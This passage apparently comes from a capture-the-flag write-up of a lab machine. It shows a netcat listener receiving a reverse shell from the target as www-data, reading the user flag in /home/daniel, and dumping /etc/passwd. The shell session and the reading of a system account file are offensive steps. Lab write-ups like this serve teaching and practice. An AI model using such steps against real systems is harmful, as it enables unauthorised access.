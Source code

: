 ```
root@violentunicorn:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.102] 53700
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home
$ ls
daniel
$ cd daniel
$ ls
user.txt
$ cat user.txt
d5111d<redacted>
```

We can find that there is another user: `daniel`

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
tomcat:x:1001:46::/opt/tomat/temp:/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
daniel:x:1002:1005::/home/daniel:/usr/bin/python3
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
Debian-snmp:x:113:116::/var/lib/snmp:/bin/false
```
